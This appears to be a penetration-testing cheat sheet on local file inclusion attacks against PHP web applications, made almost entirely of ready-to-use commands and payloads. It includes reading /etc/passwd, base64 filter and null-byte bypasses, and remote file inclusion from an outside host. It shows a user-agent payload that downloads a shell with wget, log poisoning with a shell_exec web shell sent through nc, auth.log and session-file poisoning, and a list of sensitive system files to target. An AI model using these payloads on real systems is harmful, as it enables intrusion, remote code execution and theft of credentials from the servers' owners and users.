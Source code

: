 	
	Ordered output
    
    curl -s http://INSERTIPADDRESS/gallery.php?page=/etc/passwd
    /root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=
	
Bypass execution with base64 filter
    
    http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=index 
	
    base64 -d savefile.php
	
Bypass extension with nullbyte and/or as parameter

    http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt%00
    http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt?
	
Code execution via /proc/self/environ and user agent

    Edit user agent in browser with payload and execute LFI

    USERAGENT: <?system('wget http://IPADDRESS/shell.php -O shell.php');?>
    LFI: www.website.com/view.php?page=../../../../../proc/self/environ

Web log poison

    nc 10.10.10.10 80
    GET /<?php echo shell_exec($_GET['cmd']); ?> HTTP/1.1
    Host: 10.10.10.10
    Connection: close

    LFI: www.website.com/view.php?page=../../../../../var/log/apache2/access.log&cmd=id

SSH auth.log poison

    ssh "<?php phpinfo();?>"@IPADDRESS
    
    LFI: www.website.com/view.php?page=../../../../../var/log/auth.log

PHP session file attack

    Use proxy to get PHP session id and try to poison variables submitted with payloads
    
    LFI: www.website.com/view.php?page=../../../../../var/lib/php/sess_as7sdfasd87392s

Linux LFI Files

    /etc/passwd
    /etc/shadow
    /etc/aliases
    /etc/anacrontab
    /etc/apache2/apache2.conf
    /etc/apache2/httpd.conf
    /etc/at.allow
    /etc/at.deny
    /etc/bashrc
    /etc/bootptab
    /etc/chrootUsers
    /etc/chttp.conf
    /etc/cron.allow
    /etc/cron.deny
    /etc/crontab
    /etc/cups/cupsd.conf
    /etc/exports
    /etc/fstab
    /etc/ftpaccess
    /etc/ftpchroot
    /etc/ftphosts
    /etc/groups
    /etc/grub.conf
    /etc/hosts
    /etc/hosts.allow
    /etc/hosts.deny